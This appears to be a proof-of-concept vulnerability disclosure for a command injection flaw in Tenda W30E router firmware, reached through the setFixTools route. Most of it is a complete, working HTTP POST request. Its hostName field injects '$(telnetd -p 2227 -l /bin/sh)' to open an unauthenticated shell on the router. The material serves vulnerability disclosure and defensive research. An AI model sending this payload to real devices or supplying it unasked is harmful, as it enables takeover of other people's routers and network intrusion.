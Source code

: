 # Tenda W30E Command Injection

**Vender** ：Tenda

**Firmware version**:V16.01.0.12(4843)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W30E V16.01.0.12(4843) devices. An HTTP request parameter is used in command string construction within the handler function of the setFixTools route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
POST /goform/module?1698566636867 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 94
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: bLanguage=cn; sessionid=W30EV2.0:0.171.1:9692e3

{"setFixTools":{"networkTool":1,"hostName":"$(telnetd -p 2227 -l /bin/sh)$","packageSize":32}}

```





![poc](./poc.jpg)

